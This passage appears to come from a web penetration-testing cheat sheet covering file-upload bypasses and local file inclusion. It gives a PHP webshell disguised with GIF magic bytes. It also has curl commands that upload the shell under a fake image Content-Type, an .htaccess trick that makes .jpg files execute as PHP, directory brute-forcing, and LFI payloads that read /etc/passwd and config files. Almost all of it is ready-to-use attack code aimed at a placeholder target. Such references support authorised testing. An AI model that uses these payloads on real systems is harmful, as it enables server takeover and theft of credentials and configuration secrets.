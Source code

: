 ### Magic Bytes (Content-Type Bypass)

**PHP webshell with image magic bytes:**
```php
GIF89a;
<?php system($_GET['cmd']); ?>
```

**Upload with image Content-Type:**
```bash
# Using curl
curl -X POST http://TARGET/upload.php \
  -H "Content-Type: multipart/form-data" \
  -F "file=@shell.php;type=image/jpeg"
```

### .htaccess Injection

**If you can upload .htaccess:**
```apache
AddType application/x-httpd-php .jpg
```

**Then upload shell as .jpg:**
```bash
# Upload .htaccess first
curl -X POST http://TARGET/upload.php -F "file=@.htaccess"

# Then upload PHP code as .jpg
curl -X POST http://TARGET/upload.php -F "file=@shell.jpg"

# Access: http://TARGET/uploads/shell.jpg
```

### Finding Upload Location

```bash
# Common upload directories
gobuster dir -u http://TARGET -w /usr/share/wordlists/dirb/common.txt -x php,jpg,txt

# Check common paths
curl http://TARGET/uploads/
curl http://TARGET/files/
curl http://TARGET/images/
curl http://TARGET/assets/uploads/
curl http://TARGET/media/
```

## Local/Remote File Inclusion (LFI/RFI)

### LFI Testing

```bash
# Basic LFI
curl "http://TARGET/page.php?file=../../../../etc/passwd"

# Wrapper protocols
curl "http://TARGET/page.php?file=php://filter/convert.base64-encode/resource=index.php"
curl "http://TARGET/page.php?file=php://filter/convert.base64-encode/resource=../config.php"

# Decode base64 output
echo "BASE64_OUTPUT" | base64 -d
```
